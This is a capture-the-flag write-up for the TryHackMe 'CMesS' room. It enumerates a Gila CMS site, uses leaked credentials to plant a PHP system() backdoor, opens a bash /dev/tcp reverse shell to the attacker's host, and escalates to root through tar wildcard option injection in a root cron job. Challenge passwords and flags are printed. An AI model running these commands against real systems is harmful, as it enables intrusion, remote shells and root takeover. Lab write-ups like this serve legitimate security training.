


| Category          | Details                                     |
|-------------------|---------------------------------------------|
| 📝 **Name**       | [CMesS](https://tryhackme.com/room/cmess)   |  
| 🏷 **Type**       | THM Challenge                               |
| 🖥 **OS**         | Linux                                       |
| 🎯 **Difficulty** | Medium                                      |
| 📁 **Tags**       | web enumeration, Gila, tar option injection |

##  Task 1: Flags

### Compromise this machine and obtain user.txt

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-09 08:43 +0100
Nmap scan report for 10.82.132.69
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Gila CMS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.29 seconds
```

#### Add `cmess.thm` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ echo "$TARGET cmess.thm" | sudo tee -a /etc/hosts
10.82.132.69 cmess.thm
```

#### Enumerate virtual hosts
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ ffuf -r -u http://$TARGET/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cmess.thm" -fl 108
<SNIP>
dev                     [Status: 200, Size: 934, Words: 191, Lines: 31, Duration: 3582ms]
<SNIP>
```

#### Add `dev.cmess.thm` virtual host to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ echo "$TARGET dev.cmess.thm" | sudo tee -a /etc/hosts
10.82.132.69 dev.cmess.thm
```

#### Access `dev.cmess.thm`
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ curl http://dev.cmess.thm/                  
<SNIP>
    <article>
        <h3>andre@cmess.thm</h3>
        <p>That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.</p>
    </article>
    <article>
        <h3>support@cmess.thm</h3>
        <p>Your password has been reset. Here: KPFTN_f2yxe% </p>
    </article>
<SNIP> 
```
This 'Development Log' seems to leak `andre@cmess.thm:KPFTN_f2yxe%` credentials.

#### Enumerate `cmess.thm`
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ feroxbuster --url http://cmess.thm -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,py,bak,log,sh,cgi -C 404
<SNIP>
200      GET       41l       99w     1580c http://cmess.thm/admin
<SNIP>
```
We have discovered admin panel, we could try to access it using credentials that we have found previously. 

#### Login to Gila admin panel


#### Add `system()` call to `index.php`
With admin privileges we could modify any .php file. We will exploit those permissions to add conditional `system()` call in `index.php`


#### Confirm 'backdoor' is in place
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ curl -s http://cmess.thm?cmd=id | head -n 1
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
```

#### Use 'backdoor' to spawn reverse shell
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" | jq -sRr @uri) && \
curl http://cmess.thm?cmd=$CMD
```

#### Confirm foothold gained
```
connect to [192.168.131.53] from (UNKNOWN) [10.82.132.69] 45946
bash: cannot set terminal process group (735): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Discover credentials for user `andre`
`.password.bak` file has been discovered with `linpeas.sh`
```
www-data@cmess:/var/www/html$ cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```

#### Use credentials for user `andre` to access target over SSH
```
┌──(magicrc㉿perun)-[~/attack/THM CMesS]
└─$ ssh andre@cmess.thm
<SNIP>
andre@cmess:~$ id
uid=1000(andre) gid=1000(andre) groups=1000(andre)
```

#### Capture user flag
```
andre@cmess:~$ cat /home/andre/user.txt 
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```

### Escalate your privileges and obtain root.txt

#### Discover `tar` option injection vulnerability in `crontab` configuration
```
andre@cmess:~$ cat /etc/crontab 
<SNIP>
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

#### Exploit `tar` option injection vulnerability to spawn root shell
```
andre@cmess:~$ echo "/bin/cp /bin/bash /tmp/root_shell && /bin/chmod +s /tmp/root_shell" > /home/andre/backup/root_shell.sh && chmod +x /home/andre/backup/root_shell.sh && \
touch '/home/andre/backup/--checkpoint=1' && \
touch '/home/andre/backup/--checkpoint-action=exec=sh root_shell.sh'
```
Wait up to 2 minutes for `crontab` to execute `tar`.

#### Use `/tmp/root_shell` to escalate to `root`
```
andre@cmess:~$ /tmp/root_shell -p
root_shell-4.3# id
uid=1000(andre) gid=1000(andre) euid=0(root) egid=0(root) groups=0(root),1000(andre)
```

#### Capture root flag
```
root_shell-4.3# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```